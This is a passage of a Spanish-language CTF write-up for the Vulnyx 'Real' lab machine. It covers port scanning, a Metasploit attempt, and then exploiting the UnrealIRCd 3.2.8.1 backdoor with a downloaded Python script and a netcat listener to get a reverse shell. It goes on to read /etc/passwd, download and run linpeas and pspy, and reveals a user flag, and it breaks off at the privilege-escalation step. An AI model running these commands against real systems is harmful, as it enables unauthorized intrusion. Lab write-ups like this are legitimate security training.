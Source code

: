 #Reconocimiento
#Puerto80
#puerto6667
#reverseshell
#reverseshellpython
#escaladaPrivilegios

Herramients
[[ping]]
[[NMAP]]
[[Gobuster]]
[[Tratamiento de la TTY]]

Mirror donwload: [Download - MEGA](https://mega.nz/file/FOZxHbKB#LLYTQBQLGLYTVdlMMJ27mLc23pGN0XjFlg4vgHvh5Qw)

![[Vulnyx - Real - Machine.png]]
## Reconocimiento en la red

![[Vulnyx - Real - Reconocimiento.png]]

IP Máquina  target: 192.168.1.140
## NMAP

![[Vulnyx - Real - Nmap discover.png]]
Obtenemos que el epuerto 80 y puerto 22 esán abiertos
Puerto 80 es el puerto para servicio web
Puerto 22 es el puerto de SSH
Puerto 6667  --irc
Puerto 6697  --irc-u
Puerto 8067  --infi-async

Vemos la web que encontramos:

## revision puerto 80


![[Vulnyx - Real - Apache 2 Debian default website.png]]
Web es la web de apache 2 por defecto
Hacemos Gobuster para intentar encontrar  diferentes rutas de la web (por si existe algo fuera del index)


![[Vulnyx - Real - Goobuster.png]]
Pero no encontramos nada
podemos seguir intentando fuzz y gobuster subdomains

De la web no sacamos nada
Pasamos al siguiente puerto 6667

 instantamos explotarlo con metaexploit:
 comandos 
 msfconsole
![[Vulnyx - Real - Msfconsole.png]]

y buscando un poco por internet vemos que es vulnerable con metaexploit: 
https://docs.rapid7.com/metasploit/metasploitable-2-exploitability-guide/
vamos a intentar explotarlo segun lo encontrado

![[Vulnyx - Real - Search Unreal.png]]


Use 2
![[Vulnyx - Real - Use2 msfconsole.png]]

Options
![[Vulnyx - Real - Options.png]]

set rhost = IP:
![[Vulnyx - Real - Set rhost.png]]

set rport  6667

![[Vulnyx - Real - Set report 6667.png]]

use exploit/unix/irc/unreal_ircd_3281_backdoor
![[Vulnyx - Real - Use exploit irc unreal.png]]

show payloads:
![[Vulnyx - Real - show payloads.png]]

set payload reverse:
![[Vulnyx - Real - Set pauload reverse.png]]

set lhosts = local IP:
![[Vulnyx - Real - Set lhost.png]]


exploit
![[Vulnyx - Real - Exploit.png]]
but No sessions was created.

Buscando un poco por internet encontramos el repo de github

https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor

descargamos el exploit .py
wget https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor/blob/master/exploit.py

![[Vulnyx - Real - Descargar exploit del repo de github.png]]

Editamos el script en python para poner nuestra IP y el puerto con el que vamos a hacer el reverse proxy:
![[Vulnyx - Real - Script original.png]]


modificamos segun nuestras preferencias:
![[Vulnyx - Real - Config parameter.png]]

en este caso nuestra IP local y el puerto por el cual nos vamos a poner a la escucha que va a ser el 6666

ahora nos ponemos a la escucha en la terminal con  el comando:
nc -lvp 6666

![[Vulnyx - Real - Reverse shell en escucha.png]]

y una vez estamos escuchando por el puerto correcto lo que hacemos es ejecutar el scrip de python para conectar por el puerto 6667 y lanzar una reverse shell sobre nuestra IP por el puerto 6666
python3 exploit.py 192.168.1.140 6667 -payload netcat

![[Vulnyx - Real - Send exploit.png]]

y en la terminal que estamos a la escucha por el puerto 6666 recibimos la conexión:

![[Vulnyx - Real - Connection reverse proxy.png]]

Entramos con el usuario serve
![[Vulnyx - Real - Acceso con user serve vulnix real.png]]


intentamos movernos hasta home/serve  para ver si está la flag del usuario
y conseguimos la primera flag del usuario:
![[Vulnyx - Real - User server flag.png]]
user server flag: 3b7fb7c1c8737a5c67dc513657e3efb3


Comando id
![[Vulnyx - Real - Comando id para ver el usuario.png]]
Con el comando id vemos que el usuario es server 

vemos el passwd en /etc/passwd:
![[Vulnyx - Real - Passwd.png]]

server:x:1000:1000:server,,,:/home/server:/bin/bash
aquí vemos que el id de usuario es 1000 e identificador de grupo es 1000 --> Todos los que comienzan con 1000 en LINUX son usuarios

ahora vamos a hacer tratamiento de la TTI:


Tratamiento de la TTI
script /dev/null -c bash
CTRL + Z
stti raw -echo ; fg
reset
xterm
export TERM = xterm-256color
export SHELL = bash
stty -a

Descargamos linpeas:

https://github.com/carlospolop/PEASS-ng/blob/master/linPEAS/README.md
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh

le damos permisos de ejecucion al fichero .sh
chmod +x linpeas.sh
ejecutamos linpeas
./linpeas.sh

![[Vulnyx - Real - Linpeas.png]]

Pero no encontramos nada interesante

Usamos la herramient pspy:
https://github.com/DominicBreuker/pspy
url de descarga:
https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64

le damos permisos de ejecucion
chmod +x pspy64

lo ejecutamos
./pspy64
![[Vulnyx - Real - Pspy64.png]]

nos encontramos un fichero que se ejecuta como admisnitrador en /opt/Task
vemos ese fichero:
cat /opt/Task

